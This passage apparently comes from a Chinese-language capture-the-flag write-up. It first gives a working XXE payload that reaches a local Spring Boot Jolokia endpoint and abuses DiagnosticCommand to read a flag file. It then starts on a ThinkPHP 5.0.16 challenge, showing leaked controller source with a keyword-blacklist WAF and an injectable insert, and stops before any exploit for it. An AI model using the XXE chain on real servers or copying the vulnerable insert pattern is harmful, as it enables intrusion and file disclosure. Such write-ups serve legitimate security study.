 看到了 `java.lang:type=Runtime` , 结果不能执行命令

猜测 `com.sun.management:type=DiagnosticCommand` 或许也能够执行命令? 于是发现这篇文章

[https://thinkloveshare.com/hacking/ssrf_to_rce_with_jolokia_and_mbeans/](https://thinkloveshare.com/hacking/ssrf_to_rce_with_jolokia_and_mbeans/)

其实是利用 `DiagnosticCommand` 来读文件

最终 payload

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE id [
<!ENTITY file SYSTEM "http://127.0.0.1:8080/actuator/jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/flag">]>
<id>&file;
</id>
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211181449181.png)

## baibaibai_2.0

www.zip 源码泄露, thinkphp v5.0.16

/application/index/controller/M1sakaM1yuu.php

```php
<?php 
/*
 * @Author: m1saka@x1ct34m
 * @blog: www.m1saka.love
 */

namespace app\index\controller;
function waf($str){
	if(preg_match("/system| |\*|union|insert|and|into|outfile|dumpfile|infile|floor|set|updatexml|extractvalue|length|exists|user|regexp|;/i", $str)){
		return true;
	}
}
class M1sakaM1yuu
{
	public function index()
	{
		$username = request()->get('username/a');
		$str = implode(',',$username);
		if (waf($str)) {
			return '<img src="http://www.m1saka.love/wp-content/uploads/2021/11/hutao.jpg" alt="hutao" />';
		}
		if($username){
			db('m1saka')->insert(['username' => $username]);
			return '啊对对对';
		}
		else {
			return '说什么我就开摆';//
		}
	}
}
```
